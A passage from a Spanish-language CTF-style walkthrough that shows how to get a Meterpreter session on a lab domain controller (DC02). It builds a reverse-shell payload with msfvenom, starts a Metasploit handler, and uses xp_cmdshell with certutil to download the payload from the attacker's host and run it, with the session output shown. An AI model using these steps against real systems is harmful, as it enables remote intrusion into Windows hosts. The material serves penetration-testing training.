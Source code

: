 Esto quiere decir que el **AD2** permite conexiones salientes, por lo que no es tan necesario aplicar **Port Forwarding**, solo si queremos alcanzar el **AD2** desde nuestra máquina.

Entonces, intentemos ganar acceso a la **máquina AD2**.

<br>

<h3 id="Meterpreter">Obteniendo Sesion de Meterpreter de Máquina AD2</h3>

Veamos si podemos obtener una sesión de **Meterpreter**.

Primero crea una **Reverse Shell de Meterpreter** con **msfvenom**:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=Tu_IP LPORT=4433 -f exe -o revShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: revShell.exe
```

Inicia **Metasploit Framework** y carga el **módulo Handler**:
```bash
msfconsole -q

[*] Starting persistent handler(s)...
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf exploit(multi/handler) > set LPORT 4433
LPORT => 4433
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on Tu_IP:4433
```

Carga la **Reverse Shell** en el **AD2** desde el **AD1** usando **xp_cmdshell** (recuerda que debes tener un servidor de **python3** activo donde tengas la **Reverse Shell**):
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "mkdir C:\Temp"
...
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "certutil.exe -urlcache -split -f http://Tu_IP/revShell.exe C:\Temp\revShell.exe"
output                                                
...
CertUtil: -URLCache command completed successfully.
```

Ejecuta la **Reverse Shell**:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "revShell.exe"
```

Observa la sesión de **Metasploit**:
```bash
[*] Sending stage (203846 bytes) to 10.10.11.89
[*] Meterpreter session 1 opened (Tu_IP:4433 -> 10.10.11.89:59867) at 2025-10-12 15:50:54 -0600

meterpreter > getuid
Server username: darkzero-ext\svc_sql
meterpreter > sysinfo
Computer        : DC02
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : darkzero-ext
Logged On Users : 9
```